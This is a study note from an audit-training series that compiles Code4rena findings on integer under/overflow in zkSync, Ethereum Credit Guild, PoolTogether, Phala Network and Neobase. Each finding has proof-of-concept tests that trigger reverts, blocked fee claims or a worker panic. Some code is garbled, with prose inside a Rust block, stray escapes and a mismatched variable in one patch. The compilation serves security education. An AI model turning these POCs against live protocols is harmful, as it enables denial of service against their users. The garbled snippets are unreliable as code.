 # ETAAcademy-Adudit: 2. Under/Overflow

<table>
  <tr>
    <th>title</th>
    <th>tags</th>
  </tr>
  <tr>
    <td>02. Under/Overflow</td>
    <td>
      <table>
        <tr>
          <th>audit</th>
          <th>basic</th>
          <th>math</th>
          <td>under/overflow</td>
        </tr>
      </table>
    </td>
  </tr>
</table>

[Github](https://github.com/ETAAcademy)｜[Twitter](https://twitter.com/ETAAcademy)｜[ETA-Audit](https://github.com/ETAAcademy/ETAAcademy-Audit)

Authors: [Evta](https://twitter.com/pwhattie), looking forward to your joining

## 1.[High] Reduction gate in binop operation is unsafe

### Lack of overflow check

- Summary: This method converts a constraint system variable (representing a value in the prime field) directly into a **`UInt8`** value without performing any overflow checks.

- Impact & Recommendation: This means that if the original value exceeds the range of **`UInt8`** (0 to 255), an attacker could inject unexpected or malicious behavior into the circuit by manipulating the overflowed **`xor_result`**.
  <br> 🐬: [Source](https://code4rena.com/reports/2023-10-zksync#h-05-reduction-gate-in-binop-operation-is-unsafe) & [Report](https://code4rena.com/reports/2023-10-zksync)

  <details><summary>POC</summary>

  ```rust

    let mut composite_result = [Variable::placeholder(); 32];
    for ((a, b), dst) in a.iter().zip(b.iter()).zip(composite_result.iter_mut()) {
        let [result] = cs.perform_lookup::<2, 1>(table_id, &[a.get_variable(), b.get_variable()]);
        *dst = result;
    }

    At first, we perform a lookup to get the composite result for and, or and xor.


    for (src, decomposition) in composite_result.iter().zip(all_results.array_chunks::<3>()) {
        if cs.gate_is_allowed::<ReductionGate<F, 4>>() {
            let mut gate = ReductionGate::<F, 4>::empty();
            gate.params = ReductionGateParams {
                reduction_constants: [F::SHIFTS[0], F::SHIFTS[16], F::SHIFTS[32], F::ZERO],
            };
            gate.reduction_result = *src;
            gate.terms = [
                decomposition[0],
                decomposition[1],
                decomposition[2],
                zero_var,
            ];
            gate.add_to_cs(cs);
        }


    for (((and, or), xor), src) in and_results
    .iter_mut()
    .zip(or_results.iter_mut())
    .zip(xor_results.iter_mut())
    .zip(all_results.array_chunks::<3>())
    {
    *and = src[0];
    *or = src[1];
    \*xor = src[2];
    }
    let and_results = and_results.map(|el| unsafe { UInt8::from_variable_unchecked(el) });
    let or_results = or_results.map(|el| unsafe { UInt8::from_variable_unchecked(el) });
    let xor_results = xor_results.map(|el| unsafe { UInt8::from_variable_unchecked(el) });
    Finally, we get three separate results from all_results.



    for source*set in all_results.array_chunks::<3>() {
    // value is irrelevant, it's just a range check
    let *: [Variable; 1] = cs.perform_lookup::<2, 1>(table_id, &[source_set[0], source_set[1]]);
    }


  ```

</details>

## 2.[Medium] TotalBorrowedCredit can revert, breaking gauges.

### CreditMultiplier affect totalBorrowedCredit

- Summary: Changes in the creditMultiplier can cause issues in the totalBorrowedCredit function, potentially leading to reverting due to underflow. This affects debt ceiling calculations and can break borrow operations, impacting functionality.

- Impact & Recommendation: To prevent failures, either cap totalBorrowedCredit at 0 or track total tokens minted and burned by the PSM module to remove dependence on creditMultiplier.
  <br> 🐬: [Source](https://code4rena.com/reports/2023-12-ethereumcreditguild#m-03-totalborrowedcredit-can-revert-breaking-gauges) & [Report](https://code4rena.com/reports/2023-12-ethereumcreditguild)

  <details><summary>POC</summary>

  ```solidity

    function testAttackRevert() public {
    // grant roles to test contract
    vm.startPrank(governor);
    core.grantRole(CoreRoles.GAUGE_PNL_NOTIFIER, address(this));
    core.grantRole(CoreRoles.CREDIT_MINTER, address(this));
    vm.stopPrank();
    emit log_named_uint('TBC 1', profitManager.totalBorrowedCredit());
    // psm mint 100 CREDIT
    pegToken.mint(address(this), 100e6);
    pegToken.approve(address(psm), 100e6);
    psm.mint(address(this), 100e6);
    emit log_named_uint('TBC 2', profitManager.totalBorrowedCredit());
    // apply a loss
    // 50 CREDIT of loans completely default (50 USD loss)
    profitManager.notifyPnL(address(this), -50e18);
    emit log_named_uint('TBC 3', profitManager.totalBorrowedCredit());
    // burn tokens to throw off the ratio
    credit.burn(70e18);
    vm.expectRevert();
    emit log_named_uint('TBC 4', profitManager.totalBorrowedCredit());
    }


  ```

  </details>

## 2.[Medium] PnL system can be broken by large users intentionally or unintentionally.

### CreditMultiplier affected by `creditTotalSupply - loss < 0`

- Summary: The notifyPnL function in ProfitManager.sol calculates the credit multiplier based on creditTotalSupply minus loss. If the loss exceeds creditTotalSupply, it causes a revert, breaking gauge slashing and voting systems.

- Impact & Recommendation: Excessive losses cause gauge vote slashing, decrease the creditMultiplier, and disrupt the auction process. If the loss exceeds creditTotalSupply, setting the creditMultiplier to 0 prevents system breakdown.
  <br> 🐬: [Source](https://code4rena.com/reports/2023-12-ethereumcreditguild#m-04-pnl-system-can-be-broken-by-large-users-intentionally-or-unintentionally) & [Report](https://code4rena.com/reports/2023-12-ethereumcreditguild)

  <details><summary>POC</summary>

  ```solidity

    function testAttackBid() public {
    bytes32 loanId = _setupAndCallLoan();
    uint256 PHASE_1_DURATION = auctionHouse.midPoint();
    uint256 PHASE_2_DURATION = auctionHouse.auctionDuration() - auctionHouse.midPoint();
    vm.roll(block.number + 1);
    vm.warp(block.timestamp + PHASE_1_DURATION + (PHASE_2_DURATION * 2) / 3);
    // At this time, get full collateral, repay half debt
    (uint256 collateralReceived, uint256 creditAsked) = auctionHouse.getBidDetail(loanId);
    emit log_named_uint('collateralReceived', collateralReceived);
    emit log_named_uint('creditAsked', creditAsked);
    vm.startPrank(borrower);
    credit.burn(20_000e18);
    vm.stopPrank();
    // bid
    credit.mint(bidder, creditAsked);
    vm.startPrank(bidder);
    credit.approve(address(term), creditAsked);
    vm.expectRevert();
    auctionHouse.bid(loanId);
    vm.stopPrank();
    }

  ```

  </details>

## 3.[Medium] Rounding errors can cause ERC20RebaseDistributor transfers and mints to fail for underflow

### Underflow by rounding errors

- Summary: Rounding issues in ERC20RebaseDistributor can cause transfers to fail if there's a discrepancy in share calculations. This can be exploited to disrupt operations like liquidations, as affected addresses cannot exit rebase to fix transfers.

- Impact & Recommendation: Transfers and mints involving rebasing addresses may fail. To fix this, consider adjusting share calculations to tolerate rounding fluctuations, like flooring the relevant subtractions to 0.
  <br> 🐬: [Source](https://code4rena.com/reports/2023-12-ethereumcreditguild#m-23-rounding-errors-can-cause-erc20rebasedistributor-transfers-and-mints-to-fail-for-underflow) & [Report](https://code4rena.com/reports/2023-12-ethereumcreditguild)

  <details><summary>POC</summary>

  ```solidity

    function testM2bis() external {
        uint t0 = block.timestamp;
        // set up the credit token with the minimum 100e18 rebasing supply
        // as indicated here ->

        ct.mint(address(1), 100e18);
        vm.prank(address(1));
        ct.enterRebase();

        ct.mint(address(2), 6e11); vm.prank(address(2)); ct.distribute(6e11);
        vm.warp(2);
        ct.mint(address(2), 3e12); vm.prank(address(2)); ct.distribute(3e12);
        vm.warp(3);

        ct.mint(address(3), 1e20);
        vm.prank(address(3));
        // ☢️ this shouldn't revert!
        vm.expectRevert();
        ct.transfer(address(1), 1e20);
        // ☢️ this shouldn't either!
        vm.expectRevert();
        ct.mint(address(1), 1e20);
        // ☢️ this too..
        vm.prank(address(1));
        vm.expectRevert();
        ct.exitRebase();
        // ☢️ same here...
        vm.startPrank(address(1));
        vm.expectRevert();
        ct.transfer(address(3), 1e20);
        // ☢️ I bet you saw this coming...
        ct.approve(address(3), 1e20);
        vm.startPrank(address(3));
        vm.expectRevert();
        ct.transferFrom(address(1), address(3), 1e20);
    }

  ```

  </details>

## 4.[Medium] PrizeVault.maxDeposit() doesn’t take into account produced fees

### Overflow by fees

- Summary: The current implementation of PrizeVault.maxDeposit() does not account for produced fees, potentially leading to an overflow issue when yieldFeeRecipient tries to withdraw shares. This can occur with low-price tokens, where the deposit amount calculated by maxDeposit() can easily exceed the limit of type(uint96).max.

- Impact & Recommendation: Ensure users can mint when making maximum deposits by adjusting PrizeVault.maxDeposit() to factor in produced fees or by adding a function to withdraw fees in assets.
  <br> 🐬: [Source](https://code4rena.com/reports/2024-03-pooltogether#m-07-prizevaultmaxdeposit-doesnt-take-into-account-produced-fees) & [Report](https://code4rena.com/reports/2024-03-pooltogether)

  <details><summary>POC</summary>

  ```solidity
    function _deposit(address account, uint256 amount) private {
        underlyingAsset.mint(account, amount);
        vm.startPrank(account);
        underlyingAsset.approve(address(vault), amount);
        vault.deposit(amount, account);
        vm.stopPrank();
    }
    function testMaxDeposit_CalculatesWithoutTakingIntoAccountGeneratedFees() public {
        vault.setYieldFeePercentage(1e8); // 10%
        vault.setYieldFeeRecipient(bob);
        // alice make initial deposit
        _deposit(alice, 1e18);
        // mint yield to the vault and liquidate
        underlyingAsset.mint(address(vault), 1e18);
        vault.setLiquidationPair(address(this));
        uint256 maxLiquidation = vault.liquidatableBalanceOf(address(underlyingAsset));
        uint256 amountOut = maxLiquidation / 2;
        uint256 yieldFee = (1e18 - vault.yieldBuffer()) / (2 * 10); // 10% yield fee + 90% amountOut = 100%
        // bob transfers tokens out and increase fee
        vault.transferTokensOut(address(0), bob, address(underlyingAsset), amountOut);
        // alice make deposit with maximum available value for deposit
        uint256 maxDeposit = vault.maxDeposit(address(this));
        _deposit(alice, maxDeposit);
        // then bob want to withdraw earned fee but he can't do that
        vm.prank(bob);
        vm.expectRevert();
        vault.claimYieldFeeShares(yieldFee);
    }

  ```

  </details>

## 5.[Medium] yieldFeeBalance wouldn’t be claimed after calling transferTokensOut()

### Overflow by fees

- Summary: When `_tokenOut ==  address(this)`, `liquidatableBalanceOf()` mints shares and accumulates `yieldFeeBalance` accordingly. However, the maximum liquidatable amount is checked only against `liquidYield` without `_yieldFee`, potentially reaching the supply limit while minting `yieldFeeBalance`. As a result, `yieldFeeBalance` can't be claimed even though it's added to the balance.

- Impact & Recommendation: `liquidatableBalanceOf()` shouldn’t apply `yieldFeePercentage` to compare with `_maxAmountOut` when `_tokenOut == address(this)`.
  <br> 🐬: [Source](https://code4rena.com/reports/2024-03-pooltogether#m-05-yieldfeebalance-wouldnt-be-claimed-after-calling-transfertokensout) & [Report](https://code4rena.com/reports/2024-03-pooltogether)

  <details><summary>POC</summary>

  ```solidity

      function liquidatableBalanceOf(address _tokenOut) public view returns (uint256) {
        uint256 _totalSupply = totalSupply();
        uint256 _maxAmountOut;
        if (_tokenOut == address(this)) {
            // Liquidation of vault shares is capped to the TWAB supply limit.
            _maxAmountOut = _twabSupplyLimit(_totalSupply);
        } else if (_tokenOut == address(_asset)) {
            // Liquidation of yield assets is capped at the max yield vault withdraw plus any latent balance.
            _maxAmountOut = _maxYieldVaultWithdraw() + _asset.balanceOf(address(this));
        } else {
            return 0;
        }
        // The liquid yield is computed by taking the available yield balance and multiplying it
        // by (1 - yieldFeePercentage), rounding down, to ensure that enough yield is left for the
        // yield fee.
        uint256 _liquidYield = _availableYieldBalance(totalAssets(), _totalDebt(_totalSupply));
        if (_tokenOut == address(this)) {
            if (_liquidYield >= _maxAmountOut) { //compare before applying yieldFeePercentage
                _liquidYield = _maxAmountOut;
            }
            _liquidYield = _liquidYield.mulDiv(FEE_PRECISION - yieldFeePercentage, FEE_PRECISION);
        } else {
            _liquidYield = _liquidYield.mulDiv(FEE_PRECISION - yieldFeePercentage, FEE_PRECISION);
            if (_liquidYield >= _maxAmountOut) { //same as before
                _liquidYield = _maxAmountOut;
            }
        }
        return _liquidYield;
    }

  ```

  </details>

## 6. [Medium] An attacker can crash the cluster system by sending an HTTP request with a huge timeout

### Panic error by `+` overflow

- Summary: Attackers can crash cluster workers by sending requests with large timeouts, exploiting numeric overflow in Rust's `+` operator. This DoS attack costs nothing to the attacker and can be repeated to target multiple workers, disrupting the entire cluster system.

- Impact & Recommendation: Consider using `saturating_add` instead of `+`
  <br> 🐬: [Source](https://code4rena.com/reports/2024-03-phala-network#m-04-an-attacker-can-crash-the-cluster-system-by-sending-an-http-request-with-a-huge-timeout) & [Report](https://code4rena.com/reports/2024-03-phala-network)

<details><summary>POC</summary>

```rust
  #[cfg(test)]
  mod tests {
      use crate::PinkRuntimeEnv;
      use pink::chain_extension::{HttpRequest, PinkExtBackend};
      use super::*;
      #[test]
      fn http_timeout_panics() {
          mock_all_ext();
          let ext = MockExtension;
          assert_eq!(ext.address(), &AccountId32::new([0; 32]));
          let responses = ext
              .batch_http_request(
                  vec![
                      HttpRequest {
                          method: "GET".into(),
                          url: "https://httpbin.org/get".into(),
                          body: Default::default(),
                          headers: Default::default(),
                      },
                      HttpRequest {
                          method: "GET".into(),
                          url: "https://httpbin.org/get".into(),
                          body: Default::default(),
                          headers: Default::default(),
                      },
                  ],
                  u64::MAX, //@audit this will cause an overflow
              )
              .unwrap()
              .unwrap();
          assert_eq!(responses.len(), 2);
          for response in responses {
              assert!(response.is_ok());
          }
      }
  }

```

</details>

## 7. [Medium] In case a gauge weight reduction is performed via GaugeController::change_gauge_weight, it is possible that all functions will stop functioning permanently for that gauge

### Underflow by gauge weight reduction

- Summary: The "\_get_weight" function, operating in a loop, may result in an integer underflow when a gauge's weight is reduced by governance. This flaw renders the gauge unusable and locks its voting powers, posing a significant risk. Despite attempts to address such scenarios in the protocol, the likelihood of governance actions to decrease a gauge's weight suggests a high-severity vulnerability.

- Impact & Recommendation: Whenever pt.slope is less than d.slope, set the value of pt.slope to 0
  <br> 🐬: [Source](https://code4rena.com/reports/2024-03-neobase#m-01-in-case-a-gauge-weight-reduction-is-performed-via-gaugecontrollerchange_gauge_weight-it-is-possible-that-all-functions-will-stop-functioning-permanently-for-that-gauge) & [Report](https://code4rena.com/reports/2024-03-neobase)

  <details><summary>POC</summary>

  ```solidity
          if (pt.bias > d_bias) {
            pt.bias -= d_bias;
            uint256 d_slope = changes_weight[_gauge_addr][t];

   -           pt.slope -= d_slope;

   *           if(pt.slope >= d.slope) {
   *               pt.slope -= d_slope;
   *           } else {
   *               pt.slope = 0;
   *           }
        } else {
            pt.bias = 0;
            pt.slope = 0;
        }

  ```

  </details>
